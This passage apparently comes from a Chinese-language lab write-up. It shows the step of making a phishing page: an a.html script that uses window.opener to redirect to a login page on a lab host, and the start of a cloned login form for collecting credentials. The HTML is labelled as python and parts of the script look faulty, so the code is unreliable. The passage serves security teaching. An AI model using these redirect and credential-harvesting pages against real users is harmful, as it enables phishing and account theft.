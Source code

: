         ![image.png](image%2083.png)
        
4. 制作钓鱼页面
    - 恶意页面`a.html`（跳转用）
        
        ```python
        <!DOCTYPE html>
        <html>
         <body>
          <script>
           if(window.opener) mainframe.location.replace=('http://192.168.56.10:1234/login.htm');
              if(window.opener  != window) mainframe.location.replace=('http://192.168.56.10:1234/login.htm');
          </script>
         </body>
        </html>
        ```
        
    - 钓鱼页面，使用靶机的`login.htm`页面
        
        ```python
        <!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <title>Login</title>
            <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
            <style>
                body{ font: 14px sans-serif; }
                .wrapper{ width: 360px; padding: 20px; }
            </style>
        </head>
        <body>
            <div class="wrapper">
                <h2>Login</h2>
                <p>Please fill in your credentials to login.</p>
        